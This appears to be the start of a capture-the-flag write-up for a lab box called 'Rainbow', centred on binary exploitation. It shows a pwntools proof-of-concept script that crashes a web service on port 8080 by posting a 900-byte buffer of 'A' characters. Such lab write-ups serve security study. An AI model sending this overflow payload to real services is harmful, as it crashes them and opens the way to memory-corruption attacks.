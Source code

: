 # Rainbow
![](images/rainbow.png)

IP: `10.10.111.194`


# Outline
This is a bit different to the other boxes and instead focuses on binary exploitation. We are given a simple POC to crash the application:
```
#!/usr/bin/python
from pwn import *
from urllib import parse
from time import sleep
from sys import argv,exit
from os import system
  
HOST = b""
PORT = 8080
 
buffer = b"A"*900
content = buffer
payload =  b"POST / HTTP/1.1\r\n"
payload += b"Host: %s\r\n" % HOST
payload += b"Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0\r\n"
payload += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\r\n"
payload += b"Content-Type: application/x-www-form-urlencoded\r\n"
payload += b"Content-Length: %d\r\n\r\n" % len(content)
payload += content

p = remote(HOST, PORT)
p.send(payload)
p.close()
```
